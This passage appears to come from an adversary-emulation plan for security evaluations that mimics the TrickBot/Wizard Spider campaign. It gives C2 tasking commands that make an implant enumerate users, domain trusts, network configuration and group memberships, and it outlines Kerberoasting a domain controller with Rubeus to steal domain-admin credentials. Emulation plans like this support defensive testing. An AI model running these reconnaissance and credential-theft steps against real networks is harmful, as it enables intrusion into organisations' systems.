 
```bash
# TrickBot collects the users of the system.[1][6]

./evalsC2client.py --set-task TrickBot-Implant "net user >> discovery.txt"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant  "net user /domain >> discovery.txt"
```

```bash
# TrickBot obtains the IP address, location, and other relevant network information from the victim’s machine.[1][6][7]

./evalsC2client.py --set-task TrickBot-Implant "ipconfig /all"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "netstat -tan"
```

```bash
# Trickbot gathers domain specfic/client specfic information
./evalsC2client.py --set-task TrickBot-Implant "net config workstation >> discovery.txt"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "nltest /domain_trusts /all_trusts >> discovery.txt"
```

```bash
# TrickBot can identify the groups the user on a compromised host belongs to.[7]

./evalsC2client.py --set-task TrickBot-Implant "whoami /groups >> discovery.txt"
```

### :microscope: Cited Intelligence

* https://www.securityartwork.es/wp-content/uploads/2017/07/Trickbot-report-S2-Grupo.pdf
* https://www.fidelissecurity.com/threatgeek/2016/10/trickbot-we-missed-you-dyre
* https://blog.trendmicro.com/trendlabs-security-intelligence/trickbot-shows-off-new-trick-password-grabber-module/
* https://www.cybereason.com/blog/dropping-anchor-from-a-trickbot-infection-to-the-discovery-of-the-anchor-malware
* https://eclypsium.com/wp-content/uploads/2020/12/TrickBot-Now-Offers-TrickBoot-Persist-Brick-Profit.pdf

## Step 6 - Kerberoast the DC

:microphone: `Voice Track:`

In this step Wizard Spider performs Kerberoasting using a public tool, Rubeus.

Through Kerberoasting, Wizard Spider obtains encrypted credentials for the domain admin, vfleming.

Wizard Spider cracks the credentials offline for use in the next step. 

*Note: offline cracking isn't performed due to time constraints; its also not in scope for the evaluation, so we skip the behavior.*

---